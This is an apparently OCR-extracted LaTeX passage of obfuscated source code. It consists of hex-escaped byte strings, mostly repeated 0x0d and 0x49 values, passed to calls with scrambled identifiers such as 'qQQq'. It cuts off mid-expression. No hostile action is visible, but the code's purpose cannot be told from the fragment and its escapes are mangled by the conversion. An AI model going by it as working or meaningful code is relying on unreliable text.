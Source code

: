 \verb|\\x46\x0a\x45\x0a\x0a\x0a\x0a\x0a\x44\x43\x0a\x0a\x42\x3e\x3d\x3a\|\newline
\verb|\\x36\x36\x36\x36\x36\x36\x36\x36\x36\x36\x35\x34\x0a\x33\x0a\x0a\|\newline
\verb|\\x32\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\|\newline
\verb|\\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x31\x0a\x30\x0a\x0d\|\newline
\verb|\\x0a\x0d\x0d\x0d\x29\x25\x0d\x20\x0d\x0d\x0d\x0d\x0d\x0d\x1c\x0d\|\newline
\verb|\\x0d\x0d\x0d\x0f\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0c\x0a\x0b\x0a\x0a\|\newline
\verb|\\x09"|\newline
\verb|),|\newline
\verb|qQQq(3,qQQqqQQq|\newline
\verb|"\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x4f\x49\x49\x49\x49\x49\|\newline
\verb|\\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\|\newline
\verb|\\x49\x49\x4e\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\|\newline
\verb|\\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\|\newline
\verb|\\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\|\newline
\verb|\\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x4a\x49\x49\x49\|\newline
\verb|\\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\|\newline
\verb|\\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\|\newline
\verb|\\x49"|\newline
\verb|),|\newline
